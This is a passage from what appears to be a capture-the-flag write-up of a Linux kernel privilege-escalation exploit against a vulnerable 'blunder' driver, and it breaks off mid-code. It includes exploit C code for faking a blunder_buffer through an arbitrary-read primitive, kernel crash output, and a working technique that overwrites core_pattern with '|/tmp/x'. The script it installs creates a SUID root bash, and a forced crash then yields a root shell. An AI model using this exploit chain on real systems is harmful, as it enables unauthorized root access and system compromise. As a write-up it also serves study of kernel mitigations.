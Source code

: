 So I wrote some code that would check whether an address was suitable to use as a fake `blunder_buffer`, and started playing with some interesting objects I could overwrite:
```cpp
uint64_t payload_addr = X;
uint64_t target_buf_addr = payload_addr - sizeof(struct blunder_buffer);
uint64_t free_addr = target_buf_addr + offsetof(struct blunder_buffer, free);
uint64_t buffer_size_addr = target_buf_addr + offsetof(struct blunder_buffer, buffer_size);
uint64_t is_free = arb_read(free_addr) & 0xFFFFFFFF;
uint64_t buffer_size = arb_read(buffer_size_addr);
if (buffer_size < 16 || buffer_size > BLUNDER_MAX_MAP_SIZE)
    die("error: buffer_size = %#lx, needed >= 0x10 and <= %#x :(\n", buffer_size, BLUNDER_MAX_MAP_SIZE);
if (is_free == 0)
    die("error: free = 0, needed nonzero :(\n");
printf("blunder_buffer suitable: free=%lx, buffer_size=%lx\n", is_free, buffer_size);
```
{: file="exploit.c" }

#### Creds
With a KASLR leak and an arbitrary read primitive, I could calculate the address of `init_task`, traverse the linked list of tasks until finding mine, and read its `cred` pointer. I managed to find a suitable place to use as fake buffer, where the buffer size corresponded to the `uid` of a previous `struct cred`. That's when hardened usercopy hit me in the face again:

```
[ 5885.570967] usercopy: Kernel memory overwrite attempt detected to SLUB object 'cred_jar' (offset 56, size 1000)!
[ 5885.573638] ------------[ cut here ]------------
[ 5885.573641] kernel BUG at mm/usercopy.c:99!
[...]
```
{: file="pain.txt" }
The `copy_from_user` was pointing to the previous `struct cred` in memory, so it was caught by the mitigation. So close yet so far.

#### modprobe_path
I was surprised when I saw that `CONFIG_STATIC_USERMODEHELPER` is not set by default on Ubuntu. The idea was to modify `modprobe_path`. So I tried to check if some data nearby could be used a fake `blunder_buffer`. But it wasn't the case. I found a suitable place, but it was a bit far away from our target `modprobe_path`. In theory this isn't a problem: because we have an arbitrary read primitive, we can just read everything we're going to overwrite so we don't actually modify anything except our target. But the vm was crashing anyways. The reason was probably that when sending a message, appart from storing the data in the buffer, the driver does `buf->free = 0` and `buf->data_size = umsg.data_size`. In our case, this probably overwrote some used pointers or stuff, which lead to a crash. Unlucky!

#### core_pattern
I was about to consider other options, like the arbitrary free primitive we saw, or cross-cache attacks, when I remembered there was also `core_pattern`. While the `modprobe_path` binary is executed when we attempt to execute a file with unknown format, `core_pattern` is used to execute a binary when a process crashes, with the intention of producing a core file. This time, I found a suitable address to use as a fake `blunder_buffer` very close, and it didn't seem to overwrite anything important. So we can overwrite `core_pattern` with `|/tmp/x`, which is a script that will copy `bash`, make root its owner, and activate the SUID bit. Then, we only have to crash a process for the script to be executed and get a root shell:
```cpp
system("echo '"
           "#!/bin/bash\n"
           "cp /usr/bin/bash /tmp/bash\n"
           "chown root:root /tmp/bash\n"
           "chmod 4755 /tmp/bash"
       "' > /tmp/x");
system("chmod +x /tmp/x");
if (!fork()) {
	*(uint64_t*)0 = 0;
```